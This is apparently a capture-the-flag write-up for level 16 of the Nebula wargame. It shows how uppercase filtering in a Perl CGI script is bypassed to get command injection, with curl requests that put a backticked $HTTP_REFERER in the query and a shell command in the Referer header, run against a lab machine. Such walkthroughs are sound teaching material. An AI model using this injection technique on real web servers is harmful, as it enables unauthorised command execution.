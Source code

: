 we need to get command execution in the following line:

```perl
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

but $username is converted to uppercase and split at the first space:

```perl
$username =~ tr/a-z/A-Z/;
$username =~ s/\s.*//;
```

$username is the only thing that goes into the backticks, so passing $password is useless to us.


looking at [the perl CGI reference](http://www.cgi101.com/book/ch3/text.html),
we can see that there are a lot of user controllable variables that exist in
the $ENV array, and they're all uppercase, so the transformation doesn't affect us.
perl passes it's environment from $ENV down to the shell that's spawned with the backticks,
so we can access these variables not as $ENV["NAME"] as you would in perl, but
just simply as $NAME. we can then just wrap a user controlled environment
variable in backticks to run the contents of it. I used `$HTTP_REFERER` and then
made sure it was set it in the headers.

trying to simply execute cat to see if the request hangs works successfully:
```bash
$ curl -H 'Referer: cat' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'     
*   Trying 192.168.122.28...
* Connected to 192.168.122.28 (192.168.122.28) port 1616 (#0)
> GET /index.cgi?username=`$HTTP_REFERER` HTTP/1.1
> Host: 192.168.122.28:1616
> User-Agent: curl/7.47.1
> Accept: */*
> Referer: cat
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Content-type: text/html
< 
```

we can now try to run getflag, passing output to a file in /tmp:
```bash
curl -H 'Referer: getflag>/tmp/output' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'
```
this doesn't work for whatever reason - probably something to do with either
http encoding or sh interpreting redirection wrongly.
instead, we write a file to tmp and simply execute that.
```bash
level16@nebula:~$ echo "getflag > /tmp/output" > /tmp/run
level16@nebula:~$ chmod +x /tmp/run
```
```bash
curl -H 'Referer: /tmp/run' -v 'http://192.168.122.28:1616/index.cgi?username=`$HTTP_REFERER`'
```
```bash
level16@nebula:~$ cat /tmp/output
You have successfully executed getflag on a target account
```
